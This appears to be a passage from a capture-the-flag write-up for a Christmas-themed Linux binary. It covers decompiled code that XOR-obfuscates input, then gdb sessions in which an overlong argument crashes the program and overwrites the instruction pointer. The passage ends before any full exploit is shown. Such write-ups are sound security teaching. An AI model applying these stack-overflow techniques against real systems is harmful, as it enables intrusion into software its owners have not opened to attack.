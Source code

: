 ```
    uVar1 = 0;
    do {
        *(undefined4 *)((int32_t)auStack44 + uVar1) = 0;
        uVar1 = uVar1 + 4;
    } while (uVar1 < 0x20);
    .plt(auStack44, param_1);
    Process(SWish&)();
    return;
}
```
Process():
```
void __regparm3 Process(SWish&)(uint8_t *param_1)
{
    uint8_t *puVar1;
    int32_t arg_14h;
    int32_t iVar2;

    // Process(SWish&)
    puVar1 = param_1;
    do {
        *puVar1 = *puVar1 ^ 0x40;
        puVar1 = puVar1 + 1;
    } while (puVar1 != param_1 + 0x20);
    arg_14h = _IO_new_fopen("nye_ønsker.wishes.encrypted", 0x80b2008);
    iVar2 = strlen(param_1);
    iVar2 = _IO_fwrite((int32_t)param_1, iVar2, 1, arg_14h);
    if (iVar2 != 1) {
        func_0x086982df();
    }
    _IO_fclose(arg_14h);
    return;
}
```

Process(): is quite interesting. It saves the program arguments to an "encrypted" file. Luckily we
can see that the encryption is just XOR'ing the first 32 bytes with 0x40.

Running the program through gdb:
```
env - gdb /home/storenisse/import_ønsker.elf

(gdb) r $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*47+b"\x42")')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/storenisse/import_ønsker.elf $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*47+b"\x42")')
:: Import af ønsker - Copyright (c) 2020 Nisseværkstedet
.................................................................>

Program received signal SIGSEGV, Segmentation fault.
0x42414141 in ?? ()
```
So we can overwrite `$eip`
If we break at Process we see that:
```
(gdb) break Process
Breakpoint 1 at 0x8049d90
(gdb) r $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*47+b"\x42")')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/storenisse/import_ønsker.elf $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*47+b"\x42")')
:: Import af ønsker - Copyright (c) 2020 Nisseværkstedet
.................................................................>
```